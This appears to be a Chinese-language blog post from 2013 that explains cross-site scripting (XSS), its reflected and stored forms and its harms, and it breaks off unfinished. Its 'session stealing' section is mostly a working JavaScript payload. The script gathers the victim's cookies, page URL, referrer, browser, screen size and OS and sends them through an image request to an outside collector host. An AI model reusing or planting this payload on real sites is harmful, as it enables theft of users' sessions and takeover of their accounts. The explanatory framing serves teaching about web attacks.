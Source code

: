title: XSS(Cross Site Scripting) 跨站脚本
date: 2013-03-23 23:52:12
tags:
- safe
---


> XSS（Cross Site Scripting）中文名跨站脚本攻击。攻击原理是攻击者将恶意代码植入到页面中，导致浏览该页面的用户即会中招！这次主要讲讲攻击方法。

<!-- more -->

按照我的理解XSS也能分为几类，[XSS](http://wufeifei.com/xss.html)、Flash XSS、UXSS等，这篇主要讲下普通XSS，一般XSS也分为两种形态：

1.反射型

 ** 通过构造恶意代码插入链接中，由于过滤不严直接显示在页面内触发XSS **

 2.储存型

  ** 通过表单等地方提交恶意构造代码，后端存入数据库，在显示该数据的页面会触发XSS **
   
简单的理解就是由于过滤不严导致能写入JS代码，获得JS代码控制权后能做很多事情，常见危害如下：
     
* 盗取回话
* 控制用户操作（CSRF）
* 发起DDOS攻击
* 篡改页面
* 等等

针对每一个攻击进行详细讲解：


#### 盗取会话

     服务器是以SESSION来识别用户，而SESSION在客户端浏览器中是存在COOKIE里！也就是说如果我们能拿到某个用户的COOKIE，我们就能获得他帐号的权限了。而JS是可以很方便的取到COOKIE！

流程图：

[![XSS盗取用户会话](http://wufeifei.com/img/XSS盗取会话.png)][]

恶意脚本：

```Javascript
var img = document.createElement("img"),referrer = null,browser = null,screensize = null,system = null
referrer = document.referrer
/*var bro = $.browser
if(/chrome/.test(navigator.userAgent.toLowerCase())){
	browser = 'Chrome' + ' ' + bro.version
}else if(bro.webkit){
	browser = 'Webkit' + ' ' + bro.version
}else if(bro.safari){
	browser = 'Safari' + ' ' + bro.version
}else if(bro.opera){
	browser = 'Opera' + ' ' + bro.version
}else if(bro.msie){
	if(bro.version.slice(0,1) == "8"){
		browser = 'IE8'
	}else if(bro.version.slice(0,1) == "7"){
		browser = 'IE7'
	}else if(bro.version.slice(0,1) == "6"){
		browser = 'IE6'
	}
}else if(bro.mozilla){
	browser = 'Mozilla' + ' ' + bro.version
}*/
browser = navigator.appName
if(/chrome/.test(navigator.userAgent.toLowerCase())){
	browser = "Chrome"
}
screensize = screen.width + '*' + screen.height 
if (navigator.appVersion.indexOf("NT 5.1")!=-1){
	system = 'Windos XP'
}else if(navigator.appVersion.indexOf("NT 6.0")!=-1){
	system = 'Windows Vista'
}else if(navigator.appVersion.indexOf("NT 6.1")!=-1){
	system = 'Windows 7'
}else if(navigator.appVersion.indexOf("Mac OS X 10.0")!=-1){
	system = 'MacOS 猎豹(Cheetah)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.1")!=-1){
	system = 'MacOS 美洲狮(Puma)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.2")!=-1){
	system = 'MacOS 美洲虎(Jaguar)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.3")!=-1){
	system = 'MacOS 黑豹(Panther)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.4")!=-1){
	system = 'MacOS 老虎(Tiger)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.5")!=-1){
	system = 'MacOS 豹子(Leopard)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.6")!=-1){
	system = 'MacOS 雪豹(Snow Leopard)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.7")!=-1){
	system  = 'MacOS 狮子(Lion)'
}else if(navigator.appVersion.indexOf("Mac OS X 10.8")!=-1){
	system = 'MacOS 美洲狮(Mountain Lion)'
}else if(navigator.appVersion.indexOf("Linux")!=-1){
	system = 'Linux'
}else if(navigator.appVersion.indexOf("X11 ")!=-1){
	system = 'Unix'
}
img.src = "http://safe.feei.cn/admin.php?location="+escape(document.location)+"&cookie="+escape(document.cookie)+"&referrer="+escape(referrer)+"&browser="+escape(browser)+"&screensize="+escape(screensize)+"&system="+escape(system);
document.body.appendChild(img);
```
未完待续...
